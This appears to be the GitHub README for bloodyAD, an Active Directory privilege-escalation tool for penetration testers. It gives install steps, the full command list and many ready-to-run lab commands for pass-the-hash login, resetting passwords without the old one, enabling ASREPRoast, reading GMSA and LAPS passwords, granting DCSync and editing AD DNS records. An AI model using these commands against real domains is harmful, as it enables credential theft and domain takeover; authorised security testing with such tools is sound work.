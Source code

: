 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work:
```ps1
# Debian/Ubuntu/Kali
apt-get install libkrb5-dev

# Centos/RHEL
yum install krb5-devel

# Fedora
dnf install krb5-devel

# Arch Linux
pacman -S krb5
```

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3
- Gssapi (linux) or Winkerberos (Windows)

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/>

List of all available functions:

```ps1
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,search,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl,add,get,remove}
                   ...

AD Privesc Swiss Army Knife

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,search,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl,add,get,remove}
    add                 [ADD] function category
    get                 [GET] function category
    remove              [REMOVE] function category
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes gmsaAccount$ msDS-ManagedPassword

# Read LAPS password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes COMPUTER$ ms-Mcs-AdmPwd

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' ms-DS-MachineAccountQuota

# Add a new DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 add domainDNSRecord my_machine_name 192.168.10.48

# Remove a DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 remove domainDNSRecord my_machine_name 192.168.10.48

# Get AD DNS records
bloodyAD -u stan.dard -p Password123! -d bloody.local --hos 192.168.10.2 get domainDNSRecord

```

## Acknowledgements
- Thanks to [@PowerShellMafia](https://github.com/PowerShellMafia) team ([PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)) and their work on AD which inspired this tool.
- Thanks to [@dirkjanm](https://github.com/dirkjanm) ([adidnsdump.py](https://github.com/dirkjanm/adidnsdump)) and ([@Kevin-Robertson](https://github.com/Kevin-Robertson))([Invoke-DNSUpdate.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)) for their work on AD DNS which inspired DNS functionnalities.
